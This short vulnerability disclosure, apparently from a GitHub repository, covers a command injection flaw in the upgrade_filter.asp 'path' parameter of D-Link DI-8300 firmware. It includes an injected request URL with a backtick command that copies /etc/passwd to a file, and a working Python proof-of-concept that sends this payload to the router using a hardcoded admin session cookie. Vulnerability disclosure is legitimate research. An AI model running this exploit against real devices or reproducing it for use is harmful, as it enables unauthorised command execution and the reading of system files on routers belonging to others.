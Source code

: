 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.
![[Pasted image 20240806095532.png]]
```
http://192.168.0.1/upgrade_filter.asp?path=http://`cat%20/etc/passwd%3E/jiawen.txt`
```
![[Pasted image 20240806103325.png]]
Check the firmware shell. The command is successfully executed
![[Pasted image 20240806103302.png]]
# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`cat%20/etc/passwd%3E/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```